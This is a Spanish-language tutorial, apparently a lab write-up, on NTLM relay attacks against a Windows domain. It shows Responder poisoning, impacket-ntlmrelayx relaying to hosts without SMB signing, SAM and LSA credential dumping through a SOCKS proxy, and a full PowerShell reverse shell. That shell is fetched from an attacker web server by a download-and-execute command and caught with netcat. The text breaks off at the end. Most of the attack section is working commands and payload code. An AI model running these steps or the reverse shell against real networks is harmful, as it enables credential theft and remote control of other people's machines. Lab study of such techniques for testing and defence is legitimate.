


Como hemos visto si capturamos una autenticación mediante NTLM podemos obtener los challenge en plano y hasheado para poder crackearlos.
No necesitamos estar capturando la red ni nada por el estilo gracias a envenenar esos protocolos.
Por supuesto el crackear contraseñas conlleva que si es muy compleja o no se encuentra en ningún diccionario puede llegar a ser imposible o tardar demasiado en ser crackeada.
Este hash no es posible utilizarlo para el PassTheHash ya que no se trata de la contraseña del usuario hasheada sino un numero aleatorio que se genera cada vez que se realiza la petición de autenticación.
Utilizaremos una técnica que se llama NTLM Relay.
Consiste en utilizar otra herramienta junto con la anterior de responder que levanta un servidor SMB falso que coge la petición que lanza el cliente y la reenvía la máquina que nos interese acceder.
Por ejemplo, el administrador manda una petición NTLM, lo respondemos con nuestro SMB falso y lo redirijo a otra máquina donde nos interese, es decir que nos ponemos en medio de la comunicación para quedarnos con la comunicación al servicio ya que aunque no tengamos la autenticación ni el hash no importa porque ha sido el cliente real el que la ha cifrado por nosotros.
Los servicios a los que queramos acceder con esta técnica deben cumplir una característica que es el firmado SMB, ya que autentica el origen.
Para saber que máquinas lo tienen activo y cuales no:
Hacemos desde crackmapexec un descubrimiento de todos los hosts:
crackmapexec smb 192.168.20.0/24
Como vemos la máquina DC01 si lo tiene activo y el WS01 no.
Creamos un archivo de targets con las IP que nos interesen
Con impacket levantamos el servidor SMB falso:
impacket-ntlmrelayx -smb2support -tf targets.txt
Envenenamos el tráfico con responder.
Editamos un momento la configuración para desactivar el SMB y HTTP que levanta responder:
sudo emacs /etc/responder/Responder.conf
sudo responder -I eth0 -bP
Ahora lo que está ocurriendo es que responder envenena el tráfico como antes y si alguien se equivoca lo redirije a nuestro servidor SMB falso que de nuevo hace de cliente y reenvia la petición al serivicio real en la máquina objetivo de nuestro archivo targets.
De nuevo es de recalcar que esto se realiza para cualquier usuario que falle dentro del dominio, como por ejemplo un administrador:

Fallamos en la resolución de nombre pero eso es lo que vería el administrador.
Porque lo que nosotros vemos es que nos ha volcado por completo la base de datos SAM del equipo objetivo WS01 y por supuesto con esto tenemos el hash NTLM del usuario administrador local del sistema WS01.
Por supuesto el volcado de SAM es la configuración por defecto de crackmapexec pero claramente podemos ejecutar cualquier comando con los privilegios de usuario que interceptemos.
Por ejemplo en el comando:
impacket-ntlmrelayx -smb2support -tf targets.txt -socks
Podemos ejecutar todo a través de un proxy socks, por lo que cuando se produzca de nuevo un error por parte de un usuario como antes:
De nuevo engaña al cliente original pero además nos crea una conexión proxy socks que podemos usar en nombre del usuario que hayamos interceptado en las máquinas objetivo que tengamos en targets.
Pulsamos enter:
Ahora con proxychains:
sudo emacs /etc/proxychains4.conf
Modificamos el puerto por donde escucha el NTLMRelay.
proxychains4 crackmapexec smb 192.168.20.131 -u 'Administrador' -d 'corp' -p 'indiferente' --lsa --sam
Como vemos igualmente hay que pasar una contraseña pero es indiferente ya que tenemos una sesión activa que no necesita autenticación.
Indicamos con qué herramienta queremos usar el proxy y de que usuario es la sesión y todos los parámetros que queramos:

También podemos ejecutar una reverse shell de esta forma:
https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
Guardamos el shell en kali.
Cambiamos la ip de conexión:
Creamos servidor:
python2 -m SimpleHTTPServer
impacket-ntlmrelayx -smb2support -tf targets.txt -c "powershell -c \"IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.20.129:8000/reversePowerShell.ps1')\""
netcat -lvp 5555
Escuchamos con netcat y ahora si cuando falle algún usuario: